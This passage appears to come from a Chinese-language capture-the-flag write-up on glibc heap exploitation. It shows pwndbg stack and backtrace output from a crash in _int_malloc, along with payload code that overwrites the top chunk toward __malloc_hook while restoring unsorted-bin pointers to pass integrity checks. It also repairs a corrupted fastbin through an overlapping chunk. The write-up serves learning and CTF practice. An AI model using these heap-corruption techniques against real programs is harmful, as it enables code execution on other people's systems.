 ```
───────────────────────────────────[ STACK ]────────────────────────────────────
00:0000│ rsp  0x7fffffffdc10 ◂— 0x555500000006
01:0008│      0x7fffffffdc18 ◂— 0x58 /* 'X' */
02:0010│      0x7fffffffdc20 —▸ 0x7fffffffdc90 —▸ 0x7ffff7dd3780 (_IO_stdfile_1_lock) ◂— 0x0
03:0018│      0x7fffffffdc28 ◂— 0x0
04:0020│      0x7fffffffdc30 —▸ 0x7fffffffdd40 —▸ 0x7fffffffdd60 —▸ 0x555555555460 ◂— push   r15
05:0028│      0x7fffffffdc38 —▸ 0x7ffff7a62899 (printf+153) ◂— add    rsp, 0xd8
06:0030│      0x7fffffffdc40 ◂— 0xffff800000002371 /* 'q#' */
07:0038│      0x7fffffffdc48 —▸ 0x7fffffffdc8f ◂— 0x7ffff7dd378000
─────────────────────────────────[ BACKTRACE ]──────────────────────────────────
 ► f 0     7ffff7a8edd4 _int_malloc+596
   f 1     7ffff7a91dca calloc+186
   f 2     555555554dda
   f 3                0
Program received signal SIGSEGV (fault address 0x8)
```
往前回溯会发现是[rbx+0x70]给r13赋的值：
```
0x7ffff7a8edc7 <_int_malloc+583>    mov    r13, qword ptr [rbx + 0x70] 
   0x7ffff7a8edcb <_int_malloc+587>    cmp    r13, r12
   0x7ffff7a8edce <_int_malloc+590>    je     _int_malloc+1511 <0x7ffff7a8f167>
 
 ► 0x7ffff7a8edd4 <_int_malloc+596>    mov    rsi, qword ptr [r13 + 8] <0x7ffff7dd1b40>

```
rbx+0x70为unsorted bin的地址：
```
pwndbg> x/2gx 0x7ffff7dd1b20+0x70
0x7ffff7dd1b90 <main_arena+112>:	0x0000000000000000	0x0000000000000000
pwndbg> p &main_arena.bins[1]
$1 = (mchunkptr *) 0x7ffff7dd1b90 <main_arena+112>
```
正常情况下的unsorted bin内容为：
```
pwndbg> x/2gx 0x7ffff7dd1b20+0x70
0x7ffff7dd1b90 <main_arena+112>:	0x00007ffff7dd1b78	0x00007ffff7dd1b88
```
所以后来覆盖top chunk的时候顺面把bins[1]也给覆盖为正常值来绕过检查：
```
payload='\x00'*0x30+p64(libc_base+libc.symbols["__malloc_hook"]-0x10)
payload=payload.ljust(72,'\x00')
payload+=p64(0x00007ffff7dd1b78-0x7ffff7a0d000+libc_base)#绕过检查，不知道为什么莫名奇妙的会把unsortedbin破坏掉
payload+=p64(0x00007ffff7dd1b88-0x7ffff7a0d000+libc_base)
update(10,0x58,payload)#修改topchunk
```
本以为后面能够正常的进行，发现最后malloc chunk的时候会进行 malloc_consolidate,之前的fastbin已经被破坏掉了,那么就会报错：
```
pwndbg> fastbins 
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x61  #成功得到0x61,那么就可以将这里当成合法的chunk
0x60: 0x0
0x70: 0x0
0x80: 0x0
```
所以我又free了 0x50的chunk，顺面用overlap的chunk修改其fd为NULL，再重新申请回来，这样fastbin就为空了：
```
delete(2)#恢复fastbin，由于后面会malloc_consolidate会合并fastbin，会报错，这里用来恢复fastbin
update(4,0x8,p64(0))#将fd修改为0
alloc(0x48)#2将fastbin中的chunk，malloc出来，此时fastbin为空
```
此时fastbin如下:
```
fastbins
```